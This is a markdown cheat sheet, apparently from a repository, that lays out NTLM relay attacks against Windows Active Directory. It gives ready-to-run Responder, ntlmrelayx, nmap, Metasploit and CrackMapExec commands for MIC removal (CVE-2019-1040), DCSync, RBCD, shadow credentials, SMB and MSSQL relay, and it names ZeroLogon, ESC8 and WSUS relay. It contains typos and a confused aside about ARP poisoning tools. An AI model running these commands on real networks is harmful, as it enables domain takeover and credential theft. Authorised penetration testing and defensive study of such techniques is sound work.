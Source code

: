 ### Listener Setup
- Tools
- Responder to force LM downgrade
```
responder -I eth0
```
- Use for SMB enumeration or listening
```
smbclient.py
```
### NTLM Relay
- Relay on itself
- MS08-068 Use exploit/windows/smb/smb_relay for windows2000 -> windows server 2008 = ADMIN
- SMB to LDAP(S)
	- NetNTLMv1 > remove mic > relay to LDAP exploitation for relaying SMB to LDAP(S)
	- NetNTLMv2 > remove mic (CVE-2019-1040) Commands for removing MIC and escalating privileges
```
ntlmrelayx --remove-mic --escalte-user <USER> -t ldap://<DC_FQDN> -smb2support #Outcome = DcSync
```
```
ntlmrelayx.py -t ldap://<DC> --remove-mic --add-computer <COMPUTER_NAME> <COMPUTER_PASSWORD> --delegate-access -smb2support #Outcome = RBCD
```
```
ntlmrelayx.py -t ldap://<DC> --shadow-credentials --shadow-target '<DC>'
```
- HTTP(S) to LDAP > relay to LDAP
	- Relay and RBCD (Resource-Based constrained Delegation)
```
ntlmrelayx.py -t ldap://<DC> --shadow-credentials --shadow-target <DC>
```
- SMB to SMB
	- Find SMB Not Signed (Scans for unsigned SMB on non-DCs)
```
nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK
```
```
use exploit/windows/smb/smb_relay
```
```
cme smb $hosts --gen-relay-list relay.txt
```
- Relay Commands
```
ntlmrelayx.py -wh <ATTACKER_IP> -tf targets.txt smb://<TARGET> -l /tmp -6 -debug #Outcome = User
```
```
`ntlmrelayx.py -tf targets.txt -smb2support -socks (-6) #Outcome = Lateral move (socks)
```
- Metasploit Module
```
use exploit/windows/smb/smb_relay
```
- CrackMapExec
```
cme smb $hosts --gen-relay-list relay.txt
```
- MSSQL
	- Relay to MSSQL
```
ntlmrelayx.py -t mssql://<IP> --smb2support --socks #Outcome = lateral move (socks)
```
### Specific Exploits and Vulnerabilities
- CVE-2019-1040 
	- A vulnerability involving the removal of MIC to bypass security measures
- ZeroLogon (Safe Method - CVE-2020-1472)
	- A method to exploit and relay smb to netlogon securely
- ESC8
	- HTTP ADCS web-based NTLM relay attack
### ARP Poisening (possibly from smbclient.py)
- Tool for contucting the ARP poisening and man-in-the-middle attacks
	- pywusus.py
- WSUS Relay
	- Specialized attacks targeting Windows Server Update Services (WSUS) to relay and compromise
### Outcomes and Accesses
- Admin and Domain Admin Access
	- Achieved through the use or relayed credentials and exploits
- DcSync
	- Using relays to request directory replication service data
- Shadow Credentials
	- Creating shadow credentials for lateral movement and persistence
- RBCD
	- Exploiting Resource-Based Constrained Delegation for extended access